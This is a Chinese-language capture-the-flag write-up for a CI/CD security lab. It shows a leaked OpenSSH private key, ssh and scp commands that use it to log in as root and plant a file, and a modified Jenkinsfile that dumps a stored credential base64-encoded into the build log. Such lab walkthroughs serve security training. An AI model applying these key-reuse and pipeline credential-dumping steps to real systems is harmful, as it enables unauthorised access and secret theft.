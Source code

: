 ```bash
wQCuImeTnL8fGofb3jTAYeckTPiUsM2RsshSbwlZaX3TR4TWNu0mcc94hYButIcG2SMVXc
F4i9jl6cdgAff43uoPy8GKiGc9jF4eylky4c4fgw7EzbtFMPmpFnteA/Oh0SxlxhmUDVHU
mxRkssDSI7Zif6z2KaT3Z9yK92y/265Sm2gkIUshm2BNplgssCdIkNtqZaePBmHr6/09oJ
hRSJmmgkesx7TJ9BqVuuiZdn3E71XNHsbBOyD08cLrZEoNtjkAAADBAPKW8trXU/H85DOl
m9ZN6VGIbnFgtItUN8ntsS2srJ3N5VyfNiGg3pM3p0pWtOmSgjTPjrbeEtb44O73/0z38W
HfzphsbgHg0TVVEFN28N7yLHYpMRkLPz70h/RIBLRmaZrIYKuQ+KgSAPAKydnHaV8JJV75
ubOTb6IEGcR9jFOjwnEe+7pC3AZOwdkstQqCM8mUWUywqKVQ2j4iFeCWyGc2jWGq3tpT9C
oRq1Wiv56KO8IJGHfIAczKyTyLwrxgxwAAAMEA1/MFbll+7fir7eNaJuD2nhvOVq0BlBTj
KLOlCgZnBsWhh+uL+/7hzPQJdG9qZyjk2nkPeUzgwgfbtsjDhp18d1rN+ZvP7mXgtzS02K
ownCDcQz+weO/BhAFFl6IkDPB0XnC8oC0PNKs9Pp9SKlkiDtTKcvFCOBaq5LOn3XFQdaZR
lFAeCtpLFZd1aqozL+WxdhJ+OlUMWexAHNVInX3vM245R2hiSEHJfCMKwKmdQ2nkpyCjMz
nFX2YLEFe9BqS3AAAAF2FzaUBBc2FmLkdyZWVuaG9sdHMtTUJQAQID
-----END OPENSSH PRIVATE KEY-----

--------------------------ab4b01bd9df8bad8--
```

这里就拿到了key，可以ssh直接登录：

```bash
chmod 400 key
ssh -i key -p 2222 root@127.0.0.1
```

或者用scp修改文件：

```bash
echo "${FLAG}" | base64 > reportcov.sh
chmod 400 key
scp -P 2222 -i key reportcov.sh root@localhost:/var/www/localhost/htdocs
```

再build pipeline就可以获得flag。

## Mock Turtle

Jenkins代码有三层判断，问一下newbing，第一部分是检查增加的单词数和减少的单词数必须相同；第二部分是判断version文件是否只有一行，并且符合x.y.z的格式；第三部分是判断pull request中是否修改了version文件。满足上面条件就会执行merge。

因此修改`Jenkinsfile`

```groovy
pipeline {
    agent any
    stages {
        stage('pr_checks') {
    steps {
        withCredentials([usernamePassword(credentialsId: 'flag10', usernameVariable: 'flag10', passwordVariable: 'TOKEN')]) {
            sh 'echo $TOKEN | base64'
        }
    }
            }
        }
}
```
